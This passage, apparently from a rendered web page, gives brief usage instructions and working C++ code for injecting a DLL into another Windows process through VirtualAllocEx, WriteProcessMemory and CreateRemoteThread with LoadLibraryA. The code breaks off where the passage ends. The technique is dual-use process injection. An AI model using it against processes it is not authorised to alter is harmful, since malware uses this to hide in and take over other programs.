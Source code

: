 Replace `<target_process_id>` with the process ID of the target process and `<path_to_dll>` with the full path to your DLL.

This should inject the DLL into the target process, executing the payload (in this example, displaying a message box).

---
# Example Code
Here's a conceptual example in C++ using the OpenProcess, VirtualAllocEx, WriteProcessMemory, and CreateRemoteThread functions from the Windows API:

```
#include <windows.h>
#include <iostream>
#include <string>

int main(int argc, char* argv[])
{
    if (argc != 3)
    {
        std::cerr << "Usage: " << argv[0] << " <target_process_id> <path_to_dll>" << std::endl;
        return 1;
    }

    DWORD processId = std::stoul(argv[1]);
    const char* dllPath = argv[2];

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);
    if (hProcess == NULL)
    {
        std::cerr << "Failed to open target process." << std::endl;
        return 1;
    }

    LPVOID allocMem = VirtualAllocEx(hProcess, NULL, strlen(dllPath) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (allocMem == NULL)
    {
        std::cerr << "Failed to allocate memory in target process." << std::endl;
        CloseHandle(hProcess);
        return 1;
    }

    BOOL written = WriteProcessMemory(hProcess, allocMem, dllPath, strlen(dllPath) + 1, NULL);
    if (!written)
    {
        std::cerr << "Failed to write DLL path to target process memory." << std::endl;
        VirtualFreeEx(hProcess, allocMem, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)LoadLibraryA, allocMem, 0, NULL);
    if (hThread == NULL)
    {
        std::cerr << "Failed to create remote thread in target process." << std::endl;
        VirtualFreeEx(hProcess, allocMem, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    WaitForSingleObject(hThread, INFINITE);
```